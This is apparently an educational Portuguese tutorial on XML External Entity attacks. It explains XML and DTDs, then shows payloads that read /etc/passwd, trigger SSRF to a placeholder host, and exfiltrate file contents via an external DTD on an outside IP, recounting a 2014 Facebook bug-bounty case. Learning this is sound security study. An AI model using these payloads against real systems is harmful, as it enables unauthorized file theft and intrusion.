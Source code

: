 # XML External Entity

### Oque é:

Esta falha ocorre quando o atacante consegue manipular o conteúdo de um arquivo XML ao enviá-lo para o servidor, fazendo com que o mesmo processe o arquivo e execute um código malicioso, esta falha pode em alguns casos escalar para um total comprometimento dele, ela também pode ser usada junto a um server-side request forgery.

### XML:

Primeiro irei esclarecer o que é o eXtensible Markup Language, ele é uma linguagem de marcação usada para descrever e compartilhar diversos tipos de dados, para isso são usados tags como no HTML entretanto no XML elas não são predefinidas e todas dever ser fechadas.

O XML esta caindo em desuso para transporte de dados na internet devido a sua alta escalabilidade de tamanho, agora o modelo usado é o JSON.

Este é um exemplo de um documento xml:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- Na primeira linha é definido o tipo do arquivo sua versão e o encoding usado -->
<raiz><!-- Aqui definimos o elemento raiz, os aquivos xml podem conter somente um dele-->
<!-- Todas as tags dentro da raiz são suas filhas-->
<!-- Podem existir várias tags filhas com o mesmo nome -->
	<filho>
		<Nome>Thiago</Nome>
		<Idade>17</Idade>
	</filho>
	<filho>
		<Nome>Carlos</Nome>
		<Idade>23</Idade>
	</filho>
	<filho>
		<Nome>Claudia</Nome>
		<Idade>40</Idade>
	</filho>
</raiz><!-- Aqui fechamos raiz, tudo dentro dela é sua filha -->
```

Dentro do xml existe um o conceito de DTD, que é um Document Type Definition, eles são usados para descrever como o arquivo xml será, sua sintaxe é simples, veja:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- Usamos o DOCTYPE para declarar o inicio de um elemento raiz -->

<!DOCTYPE raiz [

    <!ELEMENT raiz (nome,telefone)>
	<!-- Dentro dele definimos seus elementos filhos usando a tag element -->
    <!ELEMENT nome (#PCDATA)>
    <!-- E definimos como os elementos filhos serão neste caso,texto --> 	
    <!ELEMENT telefone (#PCDATA)>
]>
<!-- Abaixo é feita a declaração deles -->
<raiz>
  <nome>Thiago</nome>
  <telefone>(011) 123-4567</telefone>
</raiz>
```

o exemplo acima é de um DTD interno mas eles também podem ser adquiridos externamente:
```xml

<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<!DOCTYPE endereço SYSTEM "endereço.dtd"><!--Usamos o comando SYSTEM para definir o caminho do arquivo -->
<endereço>
  <nome>Thiago</nome>
  <telefone>(011) 123-4567</telefone>
</endereço>
```

### Funcionamento técnico:

Como você já deve ter imaginado o 'problema' desta falha está quando podemos setar DTD externos, ao enviar um xml como este para uma página:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
o body da response conteria isto:
```
Quantidade de produtos para 381: 37
```

como pode ser percebido, o valor setado é refletido na response, logo podemos injetar um valor malicioso como este:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><!-- Aqui setamos o que seria um DDT externo
e guardamos seu valor dentro da 'variável' xxe-->
<stockCheck><productId>&xxe;</productId></stockCheck><!-- Chamamos a 'variável' usando o &xxe;-->
```

a response nesse caso conteria o valor do arquivo ```/etc/passwd```.

Esse ataque também pode ser usado para gerar um SSRF, como citado acima, para isto basta substituir o valor do arquivo para um valor HTTP.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://attack.com"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Caso o valor não seja refletido na response, tente fazer como foi ensinado no artigo sobre [SSRF](Server%20Side%20Request%20Forgery.md), injete um site sob seu domínio e analise se a response chega ou não, caso chegue o mesmo é vulnerável a SSRF por XXE.

### Exemplo:

No final de 2013, Reginaldo Silva reportou uma falha do tipo xxe para o facebook e recebeu $30000, ela poderia facilmente ser escalada para uma falha do tipo remote code execution já que o atacante poderia ler os arquivos ```/etc/passwd```, ela foi corrigida logo em seguinte.

Sabendo disso, no meio de 2014, Mohamed decidiu ver se conseguiria hackear o facebook, ele acessou uma página de carreiras na qual o usuário poderia sertar uma arquivo docx, esta extensão foi uma junção do doc com o xml, ela foi feita para facilitar a abertura e manipulação de arquivos doc, caso queira é possível extrair um arquivo docx você encontrará algo parecido com isto:


![](https://www.devmedia.com.br/imagens/articles/233575/openxmlexe3.png)

Ao perceber que poderia injetar um arquivo docx, o pesquisador extraiu o mesmo e injetou no xml esta carga maliciosa:

```xml
<!DOCTYPE root [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://197.37.102.90/ext.dtd">
%dtd;
%send;
]]>
```
como podem perceber o valor ```%dtd``` faz referência a um arquivo dtd externo, e ao chamá-lo é verificado uma entity como esta:

```xml
<!ENTITY send SYSTEM 'http://197.37.102.90/?FACEBOOK-HACKED%26file;'>
```
ao enviar este payload o pesquisador percebeu requests chegando em seu servidor python, logo o facebook estava vulnerável a xxe novamente.

A princípio o facebook não conseguiu reproduzir a falha, por isto MOhamed quase não recebeu o bounty, mas após algumas trocas de emails o facebook encontrou e corrigiu a falha.

O pesquisador recebeu $6300 por esta falha, o valor foi menor que o de 2013 pois lá era possível escalar a falha para um Remote Code Execution irei explicar RCE com XXE no próximo artigo.

### Como explorar:

Não há muitos segredos na exploração desta falha, esteja atento a arquivos XML que podem ser manipulados, caso os encontre e o valor seja refletido tente definir entitys externas para leitura de arquivos ou caso o não seja refletido tente injetar uma entity que faça referência a um servidor o qual você pode analisar a interação.
